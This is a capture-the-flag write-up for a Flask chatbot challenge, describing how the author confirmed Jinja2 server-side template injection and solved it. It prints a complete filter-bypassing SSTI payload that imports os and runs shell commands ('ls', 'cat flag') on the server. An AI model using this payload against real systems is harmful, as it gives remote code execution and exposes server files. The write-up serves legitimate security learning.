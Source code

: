 ## This is a writeup for the Unintelligible-Chatbot challenge in Web category

We get this chatbot which have only 2-3 responses.
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/6ec7acc9-dc7d-46ba-bb60-ed9b2e2dcb10)

My first thought was trying xss,
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/31fac526-6d8f-4faa-aaf0-20572ba91fd9)
turns out it didnt work.

If we try to typing some characters like '%,#,.' we can see they're blacklisted
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/bd61dd52-fc36-43c3-a667-03d189b9225c)

Then i got to know it uses flask, so i tried some jinja 
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/c2f5cfca-b254-4059-98f7-e5e31466447b)
We get this following output, 
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/a3487672-046f-4ec2-a21d-a1213dc265cd)

i was confirmed this had SSTI(server-side-template-injection) vuln using jinja.

So i tried the following payload:
>{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
We get this:
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/3c82198a-f6c3-4846-a287-bc5736fe02ea)

We can see there's a file called flag.
changing 'ls' to 'cat flag' 
>{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
we get the flag!
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/9814bc8f-4b44-4ace-a4ba-b90c905584ec)
```flag{n07_4n07h3r_5571_ch4ll3n63}```

Happy Hacking!


